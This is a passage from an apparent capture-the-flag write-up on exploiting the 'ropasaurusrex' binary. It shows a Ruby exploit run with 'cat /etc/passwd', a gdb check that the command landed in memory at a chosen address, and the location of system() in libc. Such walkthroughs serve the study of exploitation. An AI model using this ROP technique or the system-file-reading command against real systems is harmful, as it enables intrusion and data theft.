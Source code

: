 We run that against the target:

<pre>
<span class="lnr">1 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">&quot;</span><span class="Constant">cat /etc/passwd</span><span class="Statement">&quot;</span>
</pre>

And verify that it crashes:

<pre>
<span class="lnr">1 </span>listening on <span class="Statement">[</span>any<span class="Statement">]</span> <span class="Constant">4444</span> ...
<span class="lnr">2 </span>connect to <span class="Statement">[</span>127.0.0.1<span class="Statement">]</span> from debian-x86.skullseclabs.org <span class="Statement">[</span>127.0.0.1<span class="Statement">]</span> <span class="Constant">53456</span>
<span class="lnr">3 </span>Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
</pre>

Then verify that it crashed at the return address of <tt>read()</tt> (<tt>0x43434343</tt>) and wrote the command to the memory at <tt>0x08049530</tt>:

<pre>
<span class="lnr">1 </span>$ gdb <span class="Special">--quiet</span> ./ropasaurusrex core
<span class="lnr">2 </span><span class="Statement">[</span>...<span class="Statement">]</span>
<span class="lnr">3 </span>Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr">4 </span><span class="Comment">#0  0x43434343 in ?? ()</span>
<span class="lnr">5 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/s 0x08049530
<span class="lnr">6 </span>0x8049530:       <span class="Statement">&quot;</span><span class="Constant">cat /etc/passwd</span><span class="Statement">&quot;</span>
</pre>

Perfect!

<h3>Running it</h3>
Now that we've written <tt>cat /etc/passwd</tt> into memory, we need to call <tt>system()</tt> and point it at that address. It turns out, if we assume ASLR is off, this is easy. We know that the executable is linked with libc:

<pre>
<span class="lnr">1 </span>$ ldd ./ropasaurusrex
<span class="lnr">2 </span>        linux-gate.so.1 <span class="Statement">=</span><span class="Statement">&gt;</span>  <span class="PreProc">(</span><span class="Special">0xb7703000</span><span class="PreProc">)</span>
<span class="lnr">3 </span>        libc.so.6 <span class="Statement">=</span><span class="Statement">&gt;</span> /lib/i686/cmov/libc.so.6 <span class="PreProc">(</span><span class="Special">0xb75aa000</span><span class="PreProc">)</span>
<span class="lnr">4 </span>        /lib/ld-linux.so.2 <span class="PreProc">(</span><span class="Special">0xb7704000</span><span class="PreProc">)</span>
</pre>

And <tt>libc.so.6</tt> contains the <tt>system()</tt> function:

<pre>
<span class="lnr">1 </span>$ objdump <span class="Special">-T</span> /lib/i686/cmov/libc.so.6 | <span class="Statement">grep</span> system
<span class="lnr">2 </span><span class="Constant">000f5470</span> g    DF .text  <span class="Constant">00000042</span>  GLIBC_2.0   svcerr_systemerr
<span class="lnr">3 </span><span class="Constant">00039450</span> g    DF .text  <span class="Constant">0000007d</span>  GLIBC_PRIVATE __libc_system
<span class="lnr">4 </span><span class="Constant">00039450</span>  w   DF .text  <span class="Constant">0000007d</span>  GLIBC_2.0   system
</pre>
